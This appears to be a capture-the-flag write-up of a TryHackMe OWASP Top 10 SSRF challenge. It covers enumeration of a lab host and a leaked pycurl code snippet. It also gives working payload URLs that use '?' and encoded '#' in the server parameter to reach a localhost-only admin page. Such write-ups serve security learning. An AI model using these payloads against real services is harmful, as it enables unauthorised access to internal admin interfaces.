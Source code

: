 ```yaml
---
description: >-
  This challenge deals with a Server-Side Request Forgery (SSRF) vulnerability
  that is present in the server query parameter.
---
```


# OWASP Top 10 - 2021 (task 22)

_**Extra practice challenge: "Going the extra mile"**_

> There's a way to use SSRF to gain access to the site's admin area. Can you find it?

A **GET** request is sent to the following href to download the resume:

`/download?server=secure-file-storage.com:8087&id=75482342`

General format of the HTTP URL:

`http://<url>:8087/download?server=<server_addr>&id=<file_id>`



### Enumeration

1. Visiting the following URL [http://10.10.106.252:8087/admin](http://10.10.106.252:8087/admin) (GET request), presented me with a webpage displaying the following message:&#x20;

`Admin interface only available from localhost!!!`

This tells us that the admin page can only be accessed from within the machine itself. The goal now will be to find a SSRF vulnerability to redirect the request to the localhost admin URL instead.

2. I have noticed that an error messages with snippets of the code-base (sensitive information) is shown when a non-integer value is provided to the `id` query parameter via a GET request.&#x20;

For example, when the value `t` is provided, the following info and code snippet is shown in the error message.&#x20;

`GET http://<url>:8087/download?server=&id=t` gives the following error details:

`ValueError: invalid literal for int() with base 10: 't'`

```python
def download():
    file_id = request.args.get('id','')
    server = request.args.get('server','')

    if file_id!='':
        filename = str(int(file_id)) + '.pdf'
        
        response_buf = BytesIO()
        crl = pycurl.Curl()
        crl.setopt(crl.URL, server + '/public-docs-k057230990384293/' + filename)
        crl.setopt(crl.WRITEDATA, response_buf)
```

From the code snippet in the error message, I have discovered that the final HTTP URL where the request is being sent is generated in the following format:

```python
server + '/public-docs-k057230990384293/' + filename
```

Where the `server` query parameter is taken directly from the _**server**_ query parameter value. The _**id**_ query parameter value is used directly to generate the final URL value, however, it does not have a direct exploitable impact. This tells us that we can potentially control the final URL where the GET request is being sent.

Thus, the goal is to craft a payload to the _**server**_ query parameter to forge a request to the localhost admin URL: `http://localhost:8087/admin` - allowing us to retrieve the admin page content.

### Payload to the `server` query parameter

The placeholder `<url>`will be used as a general value. As detailed from part 1 in the _**Enumeration**_ section, the goal will be to redirect the **GET** request to the localhost admin page at port 8087 - placeholder value should be replaced with `localhost:8087/admin`. &#x20;

1. Null terminator/byte (`%00`)

`http://<url>:8087/download?server=<url>%00&id=1`

The input to the _**id**_ parameter will be a random integer value. While the value to the _**server**_ query parameter will be the target URL with the `%00` character at the end. The goal is to forcefully terminate the string value, to have the server ignore the part after the input.

`<url>%00/public-docs-k057230990384293/<filename>` _**->**_ `<url>`

However, this method does not work.



2. `?` (query symbol) (<mark style="color:green;">**✔ Working method**</mark>)

Inserting a ? character at the end of the server query parameter value will trick the server to treat the rest of the input (`'/public-docs-k057230990384293/' + filename`) as a query. Thus, effectively ignoring its values, allowing an attacker to fully control the server address.

A **GET** request to the following payload allows us to send a request to the **/admin** path from within the server localhost, bypassing the restriction&#x73;**.**

`http://<target_url>:8087/download?server=localhost:8087/admin?&id=1`

This forged request allows us to view the content of the admin page.



3. `#`(URI fragment) (<mark style="color:green;">**✔ Working method**</mark>)

{% embed url="https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Fragment" %}

{% embed url="https://support.google.com/richmedia/answer/190941?hl=en" %}

Similar to the query symbol, inserting an URI fragment symbol (`#`) at the end of the server query parameter value will trick the server to treat the rest of the input as a fragment.

First attempt of payload:

`http://<target_url>:8087/download?server=localhost:8087/admin#&id=1`

Some browsers may remove the section after the hash symbol (`#`):

`.../.../admin#&id=1` **->** `.../.../admin`

The final URL causes the id query parameter to be removed, which gives the following error:

`No file selected...`

A fix will be to encode the hash symbol (`%23`):

`.../.../admin%23&id=1` **->** `.../.../admin#&id=1`

Hence, the final **GET** request URL is:

`http://<target_url>:8087/download?server=localhost:8087/admin%23&id=1`



3. `@`, `%2F`, `//`

